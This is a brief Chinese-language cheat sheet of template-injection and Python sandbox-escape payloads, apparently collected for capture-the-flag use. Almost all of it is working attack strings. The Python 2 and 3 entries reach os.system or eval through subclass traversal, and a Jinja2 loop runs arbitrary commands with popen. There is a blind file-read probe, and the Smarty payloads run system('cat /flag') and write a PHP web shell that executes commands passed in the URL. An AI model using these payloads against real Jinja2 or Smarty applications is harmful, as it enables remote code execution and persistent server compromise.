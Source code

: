 ```python
```

#### 一些payload

##### python2

```python
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].system('ls')
[].__class__.__base__.__subclasses__()[76].__init__.__globals__['os'].system('ls')
"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[40](filename).read()
"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')
123456
```

##### python3

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']
"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']
```

##### Jinjia2通用payload

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('<command>').read()") }}{% endif %}{% endfor %}
# 盲注
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}
```

##### Smarty

```python
#版本号
{$smarty.version}
#php指令，smarty3弃用
{php}{/php}
#php7无法使用
<script language="php">phpinfo();</script>
#静态方法
public function getStreamVariable($variable){ $_result = ''; $fp = fopen($variable, 'r+'); if ($fp) { while (!feof($fp) && ($current_line = fgets($fp)) !== false) { $_result .= $current_line; } fclose($fp); return $_result; } $smarty = isset($this->smarty) ? $this->smarty : $this; if ($smarty->error_unassigned) { throw new SmartyException('Undefined stream variable "' . $variable . '"'); } else { return null; } }
#payload
{if phpinfo()}{/if}
{if system('ls')}{/if}
{if system('cat /flag')}{/if}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```
